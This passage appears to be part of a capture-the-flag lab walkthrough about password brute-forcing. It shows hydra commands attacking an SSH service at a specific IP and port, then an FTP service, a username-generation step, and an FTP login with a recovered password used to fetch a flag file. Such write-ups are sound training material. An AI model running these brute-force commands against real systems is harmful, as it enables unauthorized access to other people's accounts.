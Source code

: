 ### Outcome:
The password for the basic auth login is discovered.

---

## Part 2: FTP User and Flag Extraction
**Objective:** Identify the username for the FTP service and retrieve the flag.

### Steps:
1. Perform a brute-force attack on the SSH service to confirm access:
    ```bash
    hydra -s 44625 -l satwossh -P 2023-200_most_used_passwords.txt ssh://83.136.253.216 -t 5
    ```

2. Use the discovered SSH credentials to log in and extract potential usernames:
    ```bash
    ssh satwossh@83.136.253.216 -p 44625 ./username-anarchy Thomas Smith > thomas_smith_usernames.txt
    ```

3. Perform a brute-force attack on the FTP service using the extracted usernames:
    ```bash
    hydra -L thomas_smith_usernames.txt -P ../passwords.txt ftp://127.0.0.1
    ```

4. Log in to the FTP service using the valid credentials:
    ```bash
    ftp 'ftp://thomas:chocolate!@localhost'
    ```

5. Navigate and retrieve the flag:
    ```bash
    ls
    get flag.txt
    exit
    ```

6. Read the contents of the flag:
    ```bash
    cat flag.txt
    ```

### Outcome:
The flag is successfully retrieved and its contents are revealed.

    

